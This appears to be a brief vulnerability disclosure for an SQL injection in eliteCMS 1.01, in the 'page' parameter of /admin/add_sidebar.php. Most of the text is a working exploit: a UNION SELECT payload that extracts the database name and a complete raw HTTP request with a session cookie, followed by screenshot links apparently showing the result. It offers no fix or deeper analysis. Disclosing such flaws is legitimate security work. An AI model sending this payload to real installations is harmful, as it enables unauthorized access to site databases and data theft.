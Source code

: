 # Elitecms v1.01 by elitecms has SQL injection

vendors: https://elitecms.net/download.php

Vulnerability File: /admin/add_sidebar.php

Vulnerability location: ip/eliteCMS1.01/admin/add_sidebar.php?page=, page

dbname: elitecms101

[+] Payload: /eliteCMS1.01/admin/add_sidebar.php?page=-1%20union%20select%201,2,3,4,database(),6,7,8,9,10,11--+&sidebar=3 // Leak place ---> page

```sql
GET /eliteCMS1.01/admin/add_sidebar.php?page=-1%20union%20select%201,2,3,4,database(),6,7,8,9,10,11--+&sidebar=3 HTTP/1.1
Host: 192.168.1.108
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=307ef75a2f3ab4c1103d8a1e90cf120e
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/167535193-361fb57a-2084-41c0-89c1-167540f11b38.png)

![image](https://user-images.githubusercontent.com/54017627/167535239-901dd9a4-2850-41d5-8e7f-9491de69eb7f.png)
